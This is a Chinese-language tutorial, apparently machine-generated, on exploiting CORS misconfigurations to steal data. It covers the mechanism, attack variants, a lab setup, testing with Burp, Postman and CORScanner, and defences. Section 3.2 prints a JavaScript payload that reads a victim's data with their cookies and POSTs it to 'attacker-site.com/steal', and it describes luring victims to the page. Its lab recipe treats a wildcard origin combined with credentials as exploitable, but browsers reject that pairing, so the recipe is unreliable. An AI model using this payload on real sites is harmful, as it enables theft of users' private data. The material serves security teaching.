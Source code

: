 # CORS配置错误导致的数据泄露的攻击技术

## 1. 技术原理解析

### 1.1 CORS概述
跨域资源共享（Cross-Origin Resource Sharing, CORS）是一种浏览器机制，允许Web应用程序从不同域（Origin）请求资源。CORS通过HTTP头来定义哪些跨域请求是被允许的。CORS的核心在于服务器端的配置，如果配置不当，可能会导致数据泄露。

### 1.2 CORS配置错误
CORS配置错误通常发生在服务器端，常见的错误包括：
- **Access-Control-Allow-Origin** 设置为通配符（`*`），允许所有域访问资源。
- **Access-Control-Allow-Credentials** 设置为 `true`，允许携带凭据（如Cookies）的跨域请求。
- **Access-Control-Allow-Methods** 和 **Access-Control-Allow-Headers** 配置不当，允许不安全的HTTP方法和头信息。

### 1.3 攻击原理
攻击者利用CORS配置错误，通过恶意网站或脚本发起跨域请求，获取目标站点的敏感数据。具体步骤如下：
1. 攻击者构造一个恶意网站，包含跨域请求的JavaScript代码。
2. 受害者访问恶意网站，浏览器自动发起跨域请求。
3. 由于CORS配置错误，服务器允许跨域请求并返回敏感数据。
4. 攻击者通过恶意网站获取并利用这些数据。

## 2. 常见攻击手法和利用方式

### 2.1 基本攻击手法
**利用通配符配置**
- 如果服务器配置了 `Access-Control-Allow-Origin: *`，攻击者可以通过任意域发起跨域请求，获取敏感数据。

**利用凭据配置**
- 如果服务器配置了 `Access-Control-Allow-Credentials: true`，攻击者可以通过携带受害者Cookies的跨域请求，获取受保护的资源。

### 2.2 高级利用技巧
**利用子域漏洞**
- 如果服务器允许特定子域的跨域请求，攻击者可以通过控制该子域，发起跨域请求获取数据。

**利用反射型XSS**
- 如果目标站点存在反射型XSS漏洞，攻击者可以通过XSS注入跨域请求脚本，绕过CORS限制。

**利用JSONP回调**
- 如果目标站点支持JSONP（JSON with Padding），攻击者可以通过JSONP回调函数获取数据，绕过CORS限制。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
**目标服务器**
- 安装一个简单的Web服务器（如Nginx或Apache）。
- 配置CORS头，模拟配置错误。

**攻击者服务器**
- 安装一个简单的Web服务器，用于托管恶意脚本。

**受害者浏览器**
- 使用现代浏览器（如Chrome、Firefox）模拟受害者访问。

### 3.2 攻击步骤
**步骤1：配置目标服务器**
- 在目标服务器上配置 `Access-Control-Allow-Origin: *` 和 `Access-Control-Allow-Credentials: true`。

**步骤2：构造恶意脚本**
- 在攻击者服务器上创建一个HTML文件，包含以下JavaScript代码：
  ```html
  <script>
    fetch('https://target-site.com/sensitive-data', {
      credentials: 'include'
    })
    .then(response => response.json())
    .then(data => {
      // 将数据发送到攻击者服务器
      fetch('https://attacker-site.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
      });
    });
  </script>
  ```

**步骤3：诱导受害者访问**
- 诱导受害者访问攻击者服务器上的恶意HTML文件。

**步骤4：获取数据**
- 攻击者服务器接收并存储受害者敏感数据。

## 4. 实际命令、代码或工具使用说明

### 4.1 使用Burp Suite进行CORS测试
**步骤1：配置Burp Suite**
- 启动Burp Suite，配置浏览器代理。

**步骤2：拦截请求**
- 使用Burp Suite拦截目标站点的请求，修改 `Origin` 头为攻击者域。

**步骤3：分析响应**
- 检查响应头，确认是否存在CORS配置错误。

### 4.2 使用Postman进行CORS测试
**步骤1：创建请求**
- 在Postman中创建一个GET请求，URL为目标站点的敏感数据接口。

**步骤2：添加头信息**
- 添加 `Origin` 头，值为攻击者域。

**步骤3：发送请求**
- 发送请求，检查响应头，确认是否存在CORS配置错误。

### 4.3 使用自动化工具
**CORS Misconfiguration Scanner**
- 使用开源工具如 `CORS Misconfiguration Scanner` 自动化检测CORS配置错误。
  ```bash
  git clone https://github.com/chenjj/CORScanner.git
  cd CORScanner
  python cors_scan.py -u https://target-site.com
  ```

## 5. 防御措施

### 5.1 严格配置CORS头
- 避免使用通配符 `*`，指定允许的域。
- 仅在必要时启用 `Access-Control-Allow-Credentials`。

### 5.2 验证Origin头
- 在服务器端验证 `Origin` 头，确保请求来自可信域。

### 5.3 使用CSRF令牌
- 使用CSRF令牌防止跨站请求伪造，增加攻击难度。

### 5.4 定期安全审计
- 定期进行安全审计，检测和修复CORS配置错误。

## 6. 总结
CORS配置错误是Web应用程序中常见的安全漏洞，攻击者可以通过多种手法利用这些错误获取敏感数据。通过深入理解CORS机制、掌握攻击技术和防御措施，可以有效防止CORS配置错误导致的数据泄露。

---

*文档生成时间: 2025-03-11 17:47:12*
